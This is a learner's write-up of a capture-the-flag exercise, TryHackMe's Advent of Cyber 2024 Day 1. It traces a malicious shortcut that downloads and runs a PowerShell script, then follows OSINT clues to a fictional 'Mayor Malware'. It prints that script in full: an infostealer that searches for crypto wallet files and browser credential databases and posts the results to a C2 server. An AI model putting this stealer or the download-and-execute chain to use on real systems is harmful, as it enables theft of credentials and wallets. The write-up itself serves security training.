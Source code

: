 # Advent Of Cyber 2024 🎄
Just a collection of what we did and learn on each day throughout the event.

## Day 01 (OPSEC)
So it basicly was about exploring a wesite which downloading a extra file with each download, when we use 'file' command we found it is a MS Windows Shortcut and then later to look at the meta-data this file was holding we used "Exiftool" to read it. We found it was running few powershell command which was disabling the restrictions and downloading the file from `"https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1"` and storing it in the `"C:\\ProgramData\\"` and then executing the script.

the script was :
```
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```

So we look out for some unique part of the script `"Created by the one and only M.M"` and then try to search it on the github, which lead us to this issue:
`https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/issues/1` which lead to user `MM-WarevilleTHM` who was trying to asking questions and mention this script there, when we go to his profile's username repository this is what we found:
```
- 🦹‍♂️ Hi, I’m M.M, also known as Mayor Malware. I run things in Wareville Town.
- 👀 This year, SOC-mas is not going to happen and I will do all I can to sabotage it.
- 🌱 I'll develop all necessary tools and plans to sabotage the event and frustrate the citizens of Wareville. One thing is to find someone to blame for all this. Maybe Glitch will take the blame.
- 📫 How to reach me? Find me around Wareville.
```

In Short:
We caught him. ✨😁
